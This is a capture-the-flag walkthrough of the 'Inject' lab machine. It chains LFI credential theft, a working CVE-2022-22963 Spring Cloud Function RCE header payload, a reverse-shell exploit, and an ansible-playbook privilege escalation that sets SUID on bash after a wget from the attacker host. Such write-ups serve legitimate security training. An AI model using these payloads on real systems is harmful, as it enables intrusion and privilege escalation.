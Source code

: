 # Inject
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.3

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.204
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-11 05:56 EDT
Nmap scan report for 10.10.11.204
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds
```

## 2. TCP-8080

![home](Images/home.png)

What we see is a platform for file storage and sharing. Looking at the functions on the site, we notice that the only one that works is "Upload".

<p align="center">
  <img src="Images/upload.png" />
</p>

After some tests, I realized that what can be loaded is only a jpg image that can be accessed through the "show_image" endpoint, specifying, in the "img" parameter, the name of the loaded image.

    Ex. http://10.10.11.204:8080/show_image?img=test.jpg

This is very interesting because, even taking the name of the machine, I immediately think of something like LFI, RCE, XSS or some attack that involves code injection.

## 3. LFI
I then try LFI and it works

<p align="center">
  <img src="Images/lfi.png" />
</p>

Analyzing "/etc/passwd" we can see the presence of two users:

    frank:x:1000:1000:frank:/home/frank:/bin/bash
    phil:x:1001:1001::/home/phil:/bin/bash

So I looked for information in the home directories of the two users and I found that, in the home directory of the user frank, in particular in "/.m2/settings.xml" there are the login credentials via SSH of the user phil but it doesn't work the connection because there is a clear reference to the need to have the private key in the "user.home".

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

## 4. CVE-2022-22963
Since it is not possible to exploit the SSH credentials, I looked back for useful information understanding that the application is Spring Boot. So I started looking for Spring Boot exploits and found an [article](https://0x1.gitlab.io/exploit/SpringBoot-RCE/) which talks about if `Spring Cloud` is used (with between 3.1.7 and 3.2.3) then RCE is possible. To check for such a dependency I consulted the `pom.xml`.

```xml
<dependency>
  <groupId>org.springframework.cloud</groupId>
  <artifactId>spring-cloud-function-web</artifactId>
  <version>3.2.2</version>
</dependency>
```

### 4.1 PoC
#
I use the following command to create a file in `/tmp`:

```bash
└─$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/PoC.worked")' --data-raw 'data' -v  
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.81.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/PoC.worked")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Thu, 11 May 2023 15:08:40 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-05-11T15:08:40.803+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

And it worked as you can see in the following image:

<p align="center">
  <img src="Images/poc.png" />
</p>

At this point I found a [Reverse Shell](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit) for that CVE and executed it.

```bash
└─$ python exploit.py -u http://10.10.11.204:8080
[+] Target http://10.10.11.204:8080

[+] Checking if http://10.10.11.204:8080 is vulnerable to CVE-2022-22963...

[+] http://10.10.11.204:8080 is vulnerable

[/] Attempt to take a reverse shell? [y/n]y
Listening on 0.0.0.0 4444
[$$] Attacker IP:  10.10.XX.XX        
Connection received on 10.10.11.204 50416
bash: cannot set terminal process group (821): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ ls
```

We are frank but, as we have seen, to read the user flag we must be phil, therefore, using the credentials found previously, we execute the command `su phil` and obtain the flag.

```bash
frank@inject:/$ su phil
su phil
Password: DocPhillovestoInject123
whoami
phil
cat /home/phil/user.txt
230a20dab5f74f26a3a9b19f9b036e44
```

## 5. User to ROOT
Possiamo caricare [pspy](https://github.com/DominicBreuker/pspy) per monitorare i processi senza i permessi di root. La cosa interessante è che esiste un'attività che viene eseguita con autorizzazioni elevate tramite ansible-parallel.

```bash
2023/05/11 23:30:41 CMD: UID=0    PID=10     | 
2023/05/11 23:30:41 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2023/05/11 23:32:01 CMD: UID=0    PID=19169  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/                                                              
2023/05/11 23:32:01 CMD: UID=0    PID=19168  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/                                                              
2023/05/11 23:32:01 CMD: UID=0    PID=19167  | /usr/sbin/cron -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19166  | /usr/sbin/CRON -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19165  | /usr/sbin/CRON -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19170  | 
2023/05/11 23:32:01 CMD: UID=0    PID=19172  | /usr/sbin/CRON -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19173  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml                                                                                                  
2023/05/11 23:32:01 CMD: UID=0    PID=19174  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml                                                                                                        
2023/05/11 23:32:02 CMD: UID=0    PID=19176  | 
2023/05/11 23:32:02 CMD: UID=0    PID=19178  | ssh -o ControlPersist 
2023/05/11 23:32:02 CMD: UID=0    PID=19180  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml         
```

So let's see what is written in "`playbook_1.yml`".

```bash
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

Googling if it was possible to exploit `ansible-playbook` for privilege escalation, I found an [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/) which explains step by step how to customize the playbook to run commands at will.

Now we can prepare a custom playbook to add SUID to `/bin/bash`.

```yaml
- hosts: localhost
  tasks:
  - name: getshell
    command: chmod u+s /bin/bash
    become: true
```

After that, we can upload the custom playbook with a python server, wait the execute of our program, run "`bash -p`" and get the root flag.

```bash
phil@inject:/opt/automation/tasks$ wget http://10.10.XX.XX:80/playbook_2.yml
--2023-05-11 23:44:56--  http://10.10.XX.XX/playbook_2.yml
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 97 [application/octet-stream]
Saving to: ‘playbook_2.yml’

playbook_2.yml      100%[===================>]      97  --.-KB/s    in 0s      

2023-05-11 23:44:56 (1.25 MB/s) - ‘playbook_2.yml’ saved [97/97]

phil@inject:/opt/automation/tasks$ cat playbook_2
cat: playbook_2: No such file or directory
phil@inject:/opt/automation/tasks$ cat playbook_2.yml 
- hosts: localhost
  tasks:
  - name: getshell
    command: chmod u+s /bin/bash
    become: true
phil@inject:/opt/automation/tasks$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/opt/automation/tasks$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
7f826677e563e15be3521c9726bdb1a2
```